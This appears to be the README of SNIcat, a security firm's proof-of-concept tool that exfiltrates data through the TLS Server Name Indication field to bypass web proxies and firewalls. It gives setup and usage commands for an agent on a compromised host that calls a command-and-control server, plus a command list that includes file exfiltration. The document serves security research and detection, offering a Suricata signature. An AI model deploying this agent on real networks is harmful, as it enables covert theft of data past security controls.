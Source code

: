 # SNIcat (Server Name Indication Concatenator)

<img align="right" src="/images/snicat-logo.png" alt="SNIcat" width="175x" height="200">

**SNIcat** is a proof of concept tool that performs data exfiltration, utilizing a covert channel method via. *Server Name Indication*, a **TLS Client Hello Extension**.
The tool consists of an **agent** which resides on the compromised internal host, and a **Command&Control** Server which controls the agent and gathers exfiltrated data.

The full story behind SNIcat can be found in our [blog post](https://www.mnemonic.no/blog/introducing-snicat)

## Disclaimer

SNIcat has been tested on macOS and a variety of linux distributions.
Even though it can be easily ported, there is currently no Windows version, as this is just a PoC tool.

The exfiltration method does not work with explicit proxies, due to the use of HTTP CONNECT, and not TLS Client Hello, when connecting via an explicit proxy.<br/>
SNIcat might not work with products and software versions that we haven’t tested, but that does not mean the products and/or software versions aren’t vulnerable. 

## SNIcat in action

![](/images/snicat.gif)

## Background and Scenario

We discovered a new stealthy method of data exfiltration that specifically bypasses security perimeter solutions such as web proxies, next generation firewalls (NGFW), and dedicated solutions for TLS interception and inspection. Our testing validates that this is a widespread issue that affects different types of security solutions as well as solutions from a variety of vendors. We successfully tested our technique against products from F5 Networks, Palo Alto Networks and Fortinet, and speculate that many other vendors also are susceptible. 

By using our exfiltration method SNIcat, we found that we can bypass a security perimeter solution performing TLS inspection, even when the Command & Control (C2) domain we use is blocked by common reputation and threat prevention features built into the security solutions themselves. In short, we found that solutions designed to protect users, introduced them to a new vulnerability.

We have also provided a [Suricata signature](snicat.rules) for detecting this specific tool.

## Installation

Clone the repository: 

```bash
https://github.com/mnemonic-no/SNIcat.git
```

Install dependencies: 

```bash
pip3 install -r requirements.txt --user
```

## Initial setup

**C2**

Aquire a wildcard certificate and key from a publically trusted CA. This represents the *GOOD_CERT* and *GOOD_CERT_KEY*.<br/>
Utilise a self-signed certificate and key (not in any trust store) as a *BAD_CERT* and *BAD_CERT_KEY*.

```
(*) USAGE:      'python3 snicat_c2.py <LISTENING_PORT> <GOOD_CERT> <GOOD_CERT_KEY> <BAD_CERT> <BAD_CERT_KEY> log={on|off}'
(*) EXAMPLE:    'python3 snicat_c2_final.py 443 certs/good.pem certs/good.key certs/ssl-cert-snakeoil.pem log=off'
```

**Agent**

```
(*) USAGE:      'python3 snicat_agent.py <C2_SERVER_IP> <C2_SERVER_PORT> log={on|off}'
(*) Example:    'python3 snicat_agent.py 192.0.2.1 443 log=off'
```


## Usage

C2 Available commands

```
LIST			 - 	display all content in current folder
LS			 - 	display only files in the currenet folder
SIZE			 - 	display size of files in the currenet folder
LD			 - 	display every directory in current folder
CB			 - 	moves down to root tree folder - similar to 'cd .. '
CD <folder-id> 		 - 	moves up the specified folder
EX <file-id> 		 - 	exfiltrate the specified file
ALIVE 			 - 	check alive/dead agent
EXIT 			 - 	quit the C2 server
```
